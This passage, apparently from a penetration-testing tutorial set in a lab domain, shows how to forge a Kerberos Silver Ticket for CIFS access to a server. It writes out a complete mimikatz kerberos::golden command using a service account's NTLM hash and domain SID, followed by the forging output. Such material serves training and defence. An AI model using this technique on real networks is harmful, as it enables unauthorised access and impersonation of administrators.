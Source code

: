 
![Get-Domain-SID](/Ticket-Abuse/Silver-Ticket/images/sid.png) 


We also must have **compromised a service account (one way or another) to get its NTLM hash**. We must also **specify an SPN** because a **TGS ticket is always generated for one SPN only**. We can use **mimikatz** to forge a **Silver Ticket** when we have this information.

Let's say we compromised the **SQL01$ account**. We have its **NTLM hash**. We want to **craft a TGS ticket** to access the **SQL01 filesystem**. We'll need a **CIFS/SQL01 TGS** ticket to do so. 



## Using Mimikatz to Create a Silver Ticket



	PS C:\Tools> .\mimikatz.exe

	  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
	 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
	 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
	 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
	 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
	  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

	mimikatz # kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-1870146311-1183348186-593267556 /rc4:027c6604526b7b16a22e320b76e54a5b /target:sql01.inlanefreight.local /service:cifs /ptt
	User      : Administrator
	Domain    : inlanefreight.local (INLANEFREIGHT)
	SID       : S-1-5-21-1870146311-1183348186-593267556
	User Id   : 500
	Groups Id : *513 512 520 518 519
	ServiceKey: ff955e93a130f5bb1a6565f32b7dc127 - rc4_hmac_nt
	Target    : sql01.inlanefreight.local
	Lifetime  : 1/15/2024 7:47:39 AM ; 1/12/2034 7:47:39 AM ; 1/12/2034 7:47:39 AM.
	-> Ticket : ticket.kirbi

	 * PAC generated
	 * PAC signed
	 * EncTicketPart generated
	 * EncTicketPart encrypted
	 * KrbCred generated
